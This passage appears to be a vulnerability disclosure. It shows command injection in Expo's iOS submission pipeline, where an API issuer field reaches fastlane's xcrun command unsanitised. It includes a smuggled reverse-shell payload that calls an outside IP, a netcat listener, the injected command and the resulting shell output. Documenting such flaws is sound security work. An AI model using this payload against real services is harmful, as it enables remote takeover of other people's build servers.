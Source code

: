 what we notice is that the `apiKey` and `apiIssuer` are concatenated in the `xcrun` command and then executed by 

[itunes_transporter.rb#L790](https://github.com/fastlane/fastlane/blob/39ed6fed0c3cb8439238c4aec62384c59966931f/fastlane_core/lib/fastlane_core/itunes_transporter.rb#L790)
```rb
command = @transporter_executor.build_upload_command(@user, @password, actual_dir, @provider_short_name, @jwt, platform, api_key)
```

In our case, `@transporter_executor` is `AltoolTransporterExecutor` because it is the binary shipped with recent version of XCode. `AltoolTransporterExecutor:build_upload_command` does not perform any sanitizing and run the command as is:

[itunes_transporter.rb#L236-L241](https://github.com/fastlane/fastlane/blob/39ed6fed0c3cb8439238c4aec62384c59966931f/fastlane_core/lib/fastlane_core/itunes_transporter.rb#L236-L241)
```rb
exit_status = FastlaneCore::FastlanePty.spawn(command) do |command_stdout, command_stdin, pid|
    command_stdout.each do |line|
    @all_lines << line
    parse_line(line, hide_output)
    end
end
```

This looked vulnerable. I created an AppStore Connnect API key in my Expo account with the following values:  
ASC API Key File: A private key 
Key Identifier: `Apple`  
Issuer Identifier: `| sh -i >& /dev/tcp/45.155.169.171/4242 0>&1 |`  
Name: `Apple`  

The server didn't produce any error and no sanitization seemed to happen when I saved this ASC API key.  
On my server (with ip `45.155.169.171`) I started listening for a shell

```
> nc -lvp 4242
Listening on 0.0.0.0 4242
```

I then created a new submission with `eas submit -p ios` and the following command executed on expo server:

```
API_PRIVATE_KEYS_DIR=/var/folders/qx/k3m870nx1_342jy0bk5sp0c80000gn/T/deliver-20240127-827700-gxi0bj/AuthKey_Apple.p8 xcrun altool --upload-app --apiKey Apple --apiIssuer | sh -i >& /dev/tcp/45.155.169.171/4242 0>&1 | -k 100000 -t ios -assetFile /var/folders/qx/k3m870nx1_342jy0bk5sp0c80000gn/T/submissions/01c4e4d7-5efa-47dd-9dfc-47105e56b3f2/8cb3a583-90d4-4677-a69e-63e2519f2323.ipa
```

which returned a shell to `45.155.169.171`:

```
Connection received on WI-MKE1-DC2-A7-8-AF.cyberlynk.net 41230
sh: no job control in this shell
> sh-3.2$ id
uid=501(expo) gid=20(staff) groups=20(staff),12(everyone),61(localaccounts),79(_appserverusr),80(admin),81(_appserveradm),98(_lpadmin),33(_appstore),100(_lpoperator),204(_developer),250(_analyticsusers),395(com.apple.access_ftp),398(com.apple.access_screensharing),399(com.apple.access_ssh),400(com.apple.access_remote_ae),701(com.apple.sharepoint.group.1)
```
